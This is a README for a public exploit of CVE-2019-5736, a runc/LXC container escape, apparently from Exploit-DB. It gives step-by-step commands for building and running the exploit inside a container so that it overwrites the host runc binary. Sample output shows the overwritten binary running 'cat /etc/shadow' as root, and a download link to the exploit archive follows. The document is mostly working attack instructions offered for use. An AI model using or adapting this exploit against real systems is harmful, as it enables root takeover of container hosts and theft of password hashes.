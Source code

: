 ## CVE-2019-5736 ##

This is exploit code for CVE-2019-5736 (and it works for both runc and LXC).
The simplest way to use it is to copy the exploit code into an existing
container, and run `make.sh`. However, you could just as easily create a bad
image and run that.

```console
% docker run --rm --name pwnme -dit ubuntu:18.10 bash
pwnme
% docker cp CVE-2019-5736.tar pwnme:/CVE-2019-5736.tar
```

We need to install `gcc` to build the exploit, and `runc` because we need to
have the shared libraries that `runc` would use. We don't actually use the
`runc` binary itself. For LXC, you would install `lxc` instead of `runc`.

```console
% docker attach pwnme
# apt-get update && apt-get install -y gcc runc
[ snip ]
# tar xf CVE-2019-5736.tar
# ./CVE-2019-5736/make.sh
```

And now, `/bin/bash` in the container will be able to **overwrite the host runc
binary**. Since this binary is often executed by `root`, this allows for
root-level code execution on the host.

```
% docker exec -it pwnme /bin/bash
[+] bad_libseccomp.so booted.
[+] opened ro /proc/self/exe <3>.
[+] constructed fdpath </proc/self/fd/3>
[+] bad_init is ready -- see </tmp/bad_init_log> for logs.
[*] dying to allow /proc/self/exe to be unused...
% cat /usr/sbin/docker-runc
#!/bin/bash
touch /w00t_w00t ; cat /etc/shadow
```

And now if you try to use Docker normally, the malicious script will execute
with root privileges:

```
% docker exec -it pwnme /bin/good_bash
OCI runtime state failed: invalid character 'b' looking for beginning of value: unknown
% file /w00t_w00t
/w00t_w00t: empty
```

And obviously `make.sh` can be modified to make the evil path anything you
like. If you want to get access to the container, use `/bin/good_bash`.

### License ###

```
Copyright (C) 2019 Aleksa Sarai <cyphar@cyphar.com>
Vulnerability discovered by Adam Iwaniuk and Borys Popławski.

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to
deal in the Software without restriction, including without limitation the
rights to use, copy, modify, merge, publish, distribute, sublicense, and/or
sell copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

* The above copyright notice and this permission notice shall be included in
  all copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING
FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS
IN THE SOFTWARE.
```


Download: https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/46369.zip